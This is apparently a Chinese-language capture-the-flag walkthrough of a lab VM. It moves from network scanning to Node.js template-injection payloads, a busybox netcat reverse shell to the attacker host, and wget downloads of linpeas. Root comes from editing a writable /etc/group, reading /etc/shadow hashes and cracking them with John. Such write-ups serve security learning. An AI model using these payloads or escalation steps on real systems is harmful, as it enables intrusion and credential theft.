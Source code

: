 # **一、信息收集**

首先，在目标网段内使用`arp-scan`进行主机发现，以确定目标的IP地址。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:57:e5:45, IPv4: 192.168.205.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
...
192.168.205.132 08:00:27:72:8f:66       PCS Systemtechnik GmbH
...
```

确定目标IP为 `192.168.205.132` 后，使用`nmap`对其进行全端口扫描，以探测开放的端口和服务。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p0-65535 192.168.205.132
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-15 09:47 EDT
Nmap scan report for 192.168.205.132
Host is up (0.00013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
MAC Address: 08:00:27:72:8F:66 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
...
```

扫描结果显示目标开放了22 (SSH)、80 (HTTP) 和 3000 (PPP, 实际为Web服务) 端口。

# **二、漏洞利用**

访问目标80端口，发现是一个名为 "Safe Welcome Message Processor" 的Web应用。访问3000端口，则是一个功能相似的 "Welcome Message Processor" 应用。

经过测试，发现3000端口的Web应用存在服务器端模板注入（SSTI）漏洞。通过提交payload `<%= 7*7 %>`，服务器成功执行了乘法运算并返回了结果 `49`，确认了漏洞的存在。

![image-20250815215732917](http://7r1UMPHK.github.io/image/20250815224342800.webp)

为了进一步利用此漏洞，构造了一个可以执行系统命令的payload。该payload利用Node.js的`child_process`模块来执行`id`命令，并回显结果。

**命令执行Payload:**

```javascript
<% const require = this.process.mainModule.require; const { execSync } = require('child_process'); const output = execSync('id'); %><%= output %>
```

![image-20250815215910295](http://7r1UMPHK.github.io/image/20250815224346104.webp)

服务器成功返回了`uid=1000(welcome) gid=1000(welcome) groups=1000(welcome)`，表明命令已在目标系统上以`welcome`用户身份执行。

接下来，利用该漏洞获取一个反向shell。首先在Kali攻击机上设置Netcat监听8888端口。

**Kali监听:**

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
```

然后，在Web页面提交反弹shell的payload。

**反弹Shell Payload:**

```javascript
<% const require = this.process.mainModule.require; const { execSync } = require('child_process'); const output = execSync('busybox nc 192.168.205.128 8888 -e /bin/bash'); %><%= output %>
```

提交后，成功在Kali上接收到来自目标主机的shell。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.132] 43342
id
uid=1000(welcome) gid=1000(welcome) groups=1000(welcome)
```

为了获得更好的交互体验，对获取的shell进行稳定化处理。

```bash
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 24 columns 80
```

# **三、权限提升**

在获取了`welcome`用户的shell后，开始进行提权操作。首先，检查用户的`sudo`权限。

```bash
welcome@Temp:/opt/ssti-welcome$ sudo -l
...
User welcome may run the following commands on Temp:
    (ALL) NOPASSWD: /usr/sbin/reboot
```

`sudo -l`结果显示`welcome`用户只能以`NOPASSWD`方式执行`/usr/sbin/reboot`命令，此权限对提权没有直接帮助。

接着，在用户家目录下发现并读取了`user.txt`文件，获得了第一个flag。

```bash
welcome@Temp:~$ cat user.txt
flag{user-12f54a96f64443246930da001cafda8b}
```

为了更全面地收集系统信息，上传并执行`linpeas.sh`脚本进行自动化枚举。

```bash
welcome@Temp:~$ cd /tmp
welcome@Temp:/tmp$ busybox wget 192.168.205.128/linpeas.sh
welcome@Temp:/tmp$ bash /tmp/linpeas.sh
...
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 200)
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-files
...
/etc/group
...
```

`linpeas`的扫描结果显示`/etc/group`文件对于当前用户是可写的，这是一个关键的提权向量。我们可以通过修改该文件，将`welcome`用户添加到`sudo`或`shadow`等高权限用户组。

为了能够读取`/etc/shadow`文件以破解用户密码，决定将`welcome`用户添加到`shadow`组。

## **1. 配置SSH免密登录**

由于不知道`welcome`用户的密码，无法直接切换组。因此，首先配置SSH免密登录，以便在修改`/etc/group`后能以新组的身份重新登录。

在`welcome`用户家目录下创建`.ssh`目录，并从Kali攻击机下载`authorized_keys`文件。

```bash
welcome@Temp:~$ mkdir .ssh
welcome@Temp:~$ cd .ssh/
welcome@Temp:~/.ssh$ busybox wget 192.168.205.128/authorized_keys
```

## **2. 修改`/etc/group`**

使用`vim`或其他编辑器打开`/etc/group`文件，将`welcome`用户添加到`shadow`组和`sudo`组。

```bash
welcome@Temp:~/.ssh$ vim /etc/group
```

修改后的内容如下：

```
...
sudo:x:27:welcome
...
shadow:x:42:welcome
...
```

## **3. 读取shadow文件并破解密码**

修改完成后，从Kali攻击机通过SSH连接到目标，此时`welcome`用户已具备`shadow`组的权限，可以直接读取`/etc/shadow`文件。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ ssh welcome@192.168.205.132
...
welcome@Temp:~$ cat /etc/shadow
root:$6$OJ3tCiDX7okU1mml$K5.VqI9J/kSkDxb.et6AWCJnfN0//2VmsjZlwdBCeDK2MgHpojEVMs7hd3FAuQ1EYIJpHnUMMR.pz3uQvpzGr1:20293:0:99999:7:::
...
welcome:$6$5aPJr2PfLEe1OJqk$vcaYOfDgCNO.G.PkNFM0Lj2CS803S5FSogWPHcZSPTSjSEec1YveEGhJ0JXnEGlzRxx1BlH0UJeIIbP7RN2XT.:20293:0:99999:7:::
```

将`welcome`用户的密码哈希保存下来，使用`John the Ripper`和`rockyou.txt`字典进行破解。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ echo 'welcome:$6$5aPJr2PfLEe1OJqk$vcaYOfDgCNO.G.PkNFM0Lj2CS803S5FSogWPHcZSPTSjSEec1YveEGhJ0JXnEGlzRxx1BlH0UJeIIbP7RN2XT.' > hash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
...
sainsburys       (welcome)
...
Session completed.
```

成功破解出`welcome`用户的密码为 `sainsburys`。

## **4. 获取Root权限**

由于之前已将`welcome`用户添加到了`sudo`组，现在可以直接使用破解出的密码切换到root用户。

```bash
welcome@Temp:~$ sudo bash
[sudo] password for welcome: sainsburys
root@Temp:/home/welcome# id
uid=0(root) gid=0(root) groups=0(root)
```

成功获取root权限后，读取`/root/root.txt`和`/home/welcome/user.txt`，获得所有flag。

```bash
root@Temp:/home/welcome# cat /root/root.txt /home/welcome/user.txt
flag{root-60b725f10c9c85c70d97880dfe8191b3}
flag{user-12f54a96f64443246930da001cafda8b}
```

